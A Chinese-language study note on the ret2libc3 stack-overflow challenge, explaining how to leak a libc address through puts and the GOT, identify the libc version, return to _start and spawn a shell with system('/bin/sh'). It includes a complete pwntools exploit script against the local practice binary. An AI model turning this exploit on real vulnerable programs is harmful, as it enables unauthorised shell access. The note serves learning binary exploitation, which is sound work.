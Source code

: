 ![image-20220116170946077](栈溢出学习.assets/image-20220116170946077.png)

没有system和`/bin/sh`，所以只能去libc中找。通过泄露出某个函数的got表的内容，就知道了这个函数在程序中真实的地址，虽然这个地址在开了ASLR保护的情况下是随机的，但是只是针对中间位随机，最低的12位不会变化，因此可以去查libc-database来得到libc的版本，从而得到各种函数和字符串的地址。

因为延迟绑定（参考上面链接），所以必须泄露的是已经用过的函数。

题目中有puts函数可以打印，因此可以利用这个函数来泄露。

任何使用过的函数都可以用来泄露，这里泄露`__libc_start_main`。泄露需要重新返回程序以便于下一次攻击（因为每次程序的地址都会改变）。

重新返回不能返回main函数，而是`_start`函数，main () 函数是用户代码的入口，是对用户而言的；而`_start () `函数是系统代码的入口，是程序真正的入口），方便再次用来执行 system('/bin/sh'。进`_start`函数之后可能有一些堆栈的处理使得上一次我们栈溢出对下一次的栈溢出的影响消除掉。

编写exp：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process("./ret2libc3")
elf = ELF('./ret2libc3')
puts_plt = elf.plt['puts']
main = elf.symbols['_start']
libc_start_main_got = elf.got['__libc_start_main']

payload1 =
flat(['a'*112,puts_plt,main,libc_start_main_got])

p.sendlineafter('Can you find it !?',payload1)
addr = (u32(p.recv(4)))
libc = LibcSearcher("__libc_start_main", addr)

base = addr - libc.dump("__libc_start_main")
system_addr = base + libc.dump("system")
binsh_addr = base + libc.dump("str_bin_sh")
payload2 = flat(['a'*112,system_addr,4*'a',binsh_addr])
p.sendline(payload2)
p.interactive()

```
